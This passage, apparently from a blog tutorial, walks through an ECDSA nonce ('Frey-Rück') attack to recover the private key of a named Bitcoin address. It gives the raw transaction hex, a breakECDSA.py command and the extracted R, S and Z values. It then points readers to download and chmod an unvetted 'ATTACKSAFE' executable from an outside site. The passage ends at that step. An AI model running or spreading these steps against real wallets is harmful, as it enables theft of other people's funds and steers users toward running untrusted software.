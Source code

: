 <blockquote class="wp-block-quote"><p><strong><a href="https://btc.exan.tech/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG" target="_blank" rel="noreferrer noopener">16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG</a></strong></p><p><a href="https://btc.exan.tech/tx/a575ef45375f85d6d3c010dae01df1479e2e0c5b870b80ee757fc2522057db72" target="_blank" rel="noreferrer noopener">https://btc.exan.tech/tx/a575ef45375f85d6d3c010dae01df1479e2e0c5b870b80ee757fc2522057db72</a></p></blockquote>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-13-1024x80.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-696"></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-33-1024x263.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-937"></figure>



<pre class="wp-block-code"><code>R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1
Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p class="has-text-align-center"><strong>To implement the attack and get the secret key, we will use the&nbsp;</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">“ATTACKSAFE SOFTWARE” software</a></strong></p>


<div class="wp-block-image">
<figure class="aligncenter"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-14.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-705"></a><figcaption><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure></div>


<h2>Access rights:</h2>



<pre class="wp-block-code"><code>chmod +x attacksafe</code></pre>

